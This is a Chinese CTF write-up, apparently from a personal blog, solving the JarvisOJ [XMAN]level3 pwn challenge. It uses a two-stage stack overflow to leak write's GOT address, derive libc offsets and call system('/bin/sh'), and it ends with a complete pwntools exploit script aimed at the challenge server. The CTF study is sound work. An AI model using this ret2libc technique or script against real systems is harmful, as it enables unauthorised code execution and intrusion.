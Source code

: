 ```yaml
---
title: XMAN level3 の Write-Up
date: 2020-05-20 16:46:04
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- ROP
- Stack
---
```

## Introduction

这是JarvisOJ的PWN题部分[XMAN]level3的Write-Up，题目还是有点难度。题目中涉及到二次覆盖，ret2libc方法的使用，延迟绑定技术的理解和运用等知识点，建议先认真了解一下ROP链和延迟绑定技术原理。可以参考之前写的两篇Blog：[ROP Emporium の ret2win](https://coldwave96.github.io/2020/05/19/ret2win/)和[ret2libc && Lazy Binding](https://coldwave96.github.io/2020/05/19/LazyBinding/)。

<!-- more -->

## Step 1

程序运行截图：

![](/img/XMAN-level3/XMAN1.png)

checksec：32位程序，开启DEP保护

![](/img/XMAN-level3/XMAN2.png)

## Step 2

将程序拖到hopper disassembler中去发现程序中依然存在vulnerable_function函数，但是不再有system函数和‘/bin/sh’的字符串。

![](/img/XMAN-level3/XMAN3.png)

但是同时题目也给了libc-2.19.so，把该文件也拖到hopper中发现system函数：

![](/img/XMAN-level3/XMAN4.png)

通过ROPgadget找到libc-2.19.so中’/bin/sh’字符串的位置：

![](/img/XMAN-level3/XMAN5.png)

参考之前的栈溢出系列以及[ROP Emporium の ret2win](https://coldwave96.github.io/2020/05/19/ret2win/)，现在的思路就是vulnerable_function函数溢出去执行lib-2.19.so文件中的system函数，同时传入参数’/bin/sh’。

理想中的栈布局为：

![](/img/XMAN-level3/XMAN6.png)

说是vulnerable_function函数溢出，其实实际上是read函数溢出。所以我们需要将read函数的返回地址覆盖为system函数的入口地址，然后根据函数调用规则，设置一下system函数的返回地址为0xdeadbeef（毫无意义的地址），最后是system函数的参数即‘bin/sh’字符串的地址。

## Step 3

虽然我们通过libc-2.19.so文件可以得到system函数和’/bin/sh’字符串的偏移地址，但是不知道其在内存中的实际地址，所以我们需要想办法找到system函数和’/bin/sh’字符串在内存中的实际地址。

假设这样一个情况，我们已经知道test函数是通过延迟绑定（具体情况了解[ret2libc && Lazy Binding](https://coldwave96.github.io/2020/05/19/LazyBinding/)）调用libc.so中的test函数实现的，并且我们知道test函数在内存中的实际地址test_addr及其在libc.so中的偏移地址test_libc。

此时我们想直接调用一个程序中没但是存在于libc.so中的函数func，那么我们可以得到这样一个逻辑等式：

```
func_addr - func_libc = test_addr - test_libc
```

即函数在内存中地址和在libc中偏移地址两者的差相等，这个值可以理解为libc文件加载到内存中的基址。

根据这个题目中的情况，test函数我们选择write函数，替换func函数的位置即可获取system函数和’/bin/sh’字符串在内存中的实际地址。

首先我们要泄露获取write函数的真实地址，这个可以通过打印write在got表中的地址实现。

为了输出write_got对应的实际地址，需要构造下面的栈布局：

![](/img/XMAN-level3/XMAN7.png)

将read函数的返回地址覆盖为write_plt，设置write函数返回地址为vulnerable_function函数入口地址（原因下面会提到）。

之后是`write(int fd,const void*buf,size_t count)`函数的3个参数：

* 第一个参数是STDIN_FILENO即文件描述符，一般定义为0, 1，2；分别代表stdin(0，标准输入)，stdout(1，标准输出)，stderr(2，标准出错)

* 第二个参数是BUF即写入的字符串

* 第三个参数是每次写入的字节数

所以本次题目中write函数对应的3个参数分别为1，write_got和4。

这样我们就可以得到write函数实际地址，且由于每次程序运行我们获取到的write函数的地址是变化的，所以我们需要把信息泄漏和获取服务器控制权限在一次网络连接中完成。

实现方法是借助于两次缓冲区溢出，第一次缓冲区溢出泄漏write的地址之后，我们让EIP再次跳转到vulnerable_function来执行，这样就可以接着进行第二次缓冲区溢出的过程，此时执行`system("/bin/sh")`即可。

运行结果：

![](/img/XMAN-level3/XMAN8.png)

## Appendix

本地运行时优先装在本地系统中的libc库，导致实际装载库并非题目给出的lib-2.19.so文件。这样会造成本地地址错误，无法成功获得shell，本地可以通过添加一个判断模块解决这个问题，远程不存在这个问题。

EXP代码（已添加对加载的libc文件做判断的模块）：

```Python
# coding: utf-8
from pwn import *

local = 1 # 控制执行环境，0为远程，1为本地
if local:
sh = process('./level3')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
sh = remote('pwn2.jarvisoj.com', 9879)
libc = ELF('./libc-2.19.so')

elf = ELF('./level3')

writeplt = elf.plt['write']
writegot = elf.got['write']
vuln_addr = elf.symbols['vulnerable_function']

writelibc = libc.symbols['write']
syslibc = libc.symbols['system']
shelllibc = libc.search('/bin/sh').next()

payload1 = 'a' * (0x88 + 0x4) + p32(writeplt) + p32(vuln_addr) + p32(1) + p32(writegot) + p32(4)

sh.recvuntil('Input:\n')
sh.sendline(payload1)

write_addr = u32(sh.recv(4))
sys_addr = write_addr - writelibc + syslibc
shell_addr = write_addr - writelibc + shelllibc

payload2 = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0xdeadbeef) + p32(shell_addr)

sh.recvuntil('Input:\n')
sh.sendline(payload2)

sh.interactive()
sh.close()
```
